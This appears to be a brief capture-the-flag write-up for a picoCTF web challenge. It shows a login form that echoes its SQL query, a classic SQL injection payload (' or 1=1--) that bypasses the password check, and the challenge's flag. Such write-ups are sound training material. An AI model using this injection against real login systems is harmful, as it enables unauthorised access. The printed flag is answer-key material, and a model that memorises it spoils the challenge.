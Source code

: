 # Overview 
Category: [Web Exploitation]()

AUTHOR: MUBARAK MIKAIL

# Description
Can you find the flag on this website.

# Solution
- I try test: username=test&password=test . Then get the results
```
<pre>username: test
password: test
SQL query: SELECT id FROM users WHERE password = 'test' AND username = 'test'
</pre>
```
-  There are many ways to perform SQL injection, I choose the simplest way: 
```bash
' or 1=1-- 
```
- I corrected: username=test&password=test'+or+1%3D1--+
and receive flags :
> Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_e3e46aae}